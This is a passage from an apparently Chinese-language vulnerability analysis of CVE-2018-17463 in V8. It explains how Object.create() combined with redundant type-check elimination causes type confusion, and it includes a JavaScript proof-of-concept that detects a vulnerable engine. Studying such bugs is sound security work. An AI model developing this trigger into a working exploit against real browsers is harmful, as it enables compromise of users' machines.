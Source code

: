属性被打乱都保存在elements中，每个数据占16字节，前8字节代表属性名，后8字节代表属性值。

调试poc可以看到通过调用Object.create()会将对象由[FastProperties]模式改为[DictionaryProperties]模式，并且之前保存的属性也会进行打乱，导致固定偏移上的内存的数据发生改变。

综上可以总结该漏洞利用了v8的两个特性：

（1）调用Object.create()，将对象由[FastProperties]模式改为[DictionaryProperties]模式，造成访问成员时，固定偏移上的内存的数据发生改变，访问到其他成员或其他数据。

（2）IR优化，当第二次访问同一个对象的成员时，消除“冗余的“的类型检查，结合（1）就可以构造如下的Poc，造成访问对象的一个成员时，其实是访问其它数据，并且该数据可以是另一个类型的对象，因为已经消除了类型检查。

PoC 代码：

```javascript
const NUM_PROPERTIES = 32;
const MAX_ITERATIONS = 100000;
function check_vuln(){
	function hax(o) {
		// forced a map check
		o.inline; // 访问一次对象o，这样第二次才可能消除类型检查
		// change the map, but v8 think it has no side-effect
		Object.create(o);
		return o.outline;
	}
	for (let i=0; i<MAX_ITERATIONS; i++){
		let o = {inline: 0x6666};
		o.outline = 0x7777;
		if(hax(o) !== 0x7777) { // 经过hax函数，o已经变成hash无序状态，并且触发了优化的话，就按固定偏移访问o.outline，但o已经是hash无序状态，所以固定偏移上的数据已经不是0x7777了，此时我们并不知道是什么数据。
			return;
		}
	}
	throw "[-] Not vulnerable"
}
check_vuln();
print("[+] v8 version is vulnerable");
```

触发漏洞前，没有调用Object.create前，此时o.outline位于properties+0x10处偏移，为0x7777：

![image-20200804200955780](..\image\2020-07-28-CVE-2018-17463-IR优化漏洞分析\5.png)
